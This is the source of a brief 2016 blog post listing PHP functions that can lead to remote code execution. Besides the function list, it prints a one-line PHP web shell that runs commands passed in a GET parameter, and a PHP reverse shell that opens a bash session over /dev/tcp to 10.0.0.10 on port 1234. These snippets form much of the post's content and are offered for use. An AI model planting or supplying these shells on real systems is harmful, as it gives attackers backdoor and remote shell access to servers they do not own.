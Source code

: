 ```yaml
---
layout:     post
title:      "PHP Vulnerable Functions"
subtitle:   "Listing the functions leading to RCE"
date:       2016-07-28 11:00:00
author:     "Heeraj"
header-img: "img/post-bg-02.png"
---
```

<script type='text/javascript' src='//eclkmpbn.com/adServe/banners?tid=98477_161886_3&type=footer&size=468x60'></script>
<p>Today I will be writing about the php functions which enable the attacker for gaining the shell. Common php functions
which enable you to create backdoor. This blog deals with php5 security.</p>

<blockquote>shell_exec() , exec() , passthru() ,system() ,popen()</blockquote>

<p>eval(), create_function(), extract(), file_get_contents, fopen, include, require, curl functions all also can lead to rce</p>

<h2 class="section-heading">Smallest PHP shell</h2>

<blockquote>&#x3C;?=&#x60;$_GET[1]&#x60;?&#x3E;</blockquote>

<h2 class="section-heading">Reverse Shell</h2>

<blockquote>&#x3C;?php exec(&#x22;/bin/bash -c &#x27;bash -i &#x3E;&#x26; /dev/tcp/10.0.0.10/1234 0&#x3E;&#x26;1&#x27;&#x22;);?&#x3E;</blockquote>

<p>This was <a href="http://pwnakil.blogspot.in/2012/09/backdorea-con-las-shell-web-mas-pequenas.html">link</a> that I found while googling</p>
